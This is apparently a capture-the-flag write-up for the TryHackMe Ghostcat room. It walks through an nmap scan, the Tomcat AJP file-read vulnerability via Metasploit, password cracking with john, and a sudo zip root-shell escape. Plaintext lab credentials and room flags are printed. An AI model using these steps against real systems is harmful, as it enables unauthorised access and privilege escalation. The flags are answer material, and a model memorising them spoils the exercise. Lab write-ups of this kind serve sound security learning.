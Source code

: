 ```yaml
---
sticker: emoji//1f47b
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE    |
| :--- | :--------- |
| 22   | ssh        |
| 53   | tcpwrapped |
| 8009 | ajp13      |
| 8080 | http       |

```
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack
8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack Apache Tomcat 9.0.30
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



# RECONNAISSANCE
---

From the scan, we can check that we're dealing with `apache tomcat 9.0.30`, we can look up for vulnerabilities regarding this version:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331134324.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331134331.png)


We can look up this in `metasploit`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331134514.png)

Let's test if it works:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331134552.png)

It works, let's proceed with exploitation.


# EXPLOITATION
---

Since we were able to read the `/WEB-INF/web.xml` file, we noticed it came with some credentials, we can access `ssh` with them:


```
skyfuck:8730281lkjlkjdqlksalks
```



![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331135832.png)

Let's begin privesc.


# PRIVILEGE ESCALATION
---


If we check `skyfuck` home, we can find this:

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

We got some encrypted credentials, but to our luck we also got the `.asc` private file to decrypt, let's do it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331140554.png)

If we try importing it, we notice we need a passphrase, let's use `gpg2john` to get it:

```
gpg2john tryhackme.asc > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

We get this:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "gpg", but the string is also recognized as "gpg-opencl"
Use the "--format=gpg-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2025-03-31 19:06) 16.66g/s 17866p/s 17866c/s 17866C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Passphrase is `alexandru`, let's check the credentials now:

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

We get this:

```
gpg --decrypt credential.pgp
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We got the credentials for another user: `merlin`, let's go into ssh:

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We can now read `user.txt`:

```
merlin@ubuntu:~$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```


We can check our privileges:

```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

We got root permissions on `/usr/bin/zip`, let's check it on `gtfobins`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331141148.png)

We can do the following in order to get an interactive shell as root:

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh -c "sh <&2 1>&2"'
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331141357.png)

We can now read `root.txt`:

```
# cat /root/root.txt
THM{Z1P_1S_FAKE}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331141444.png)

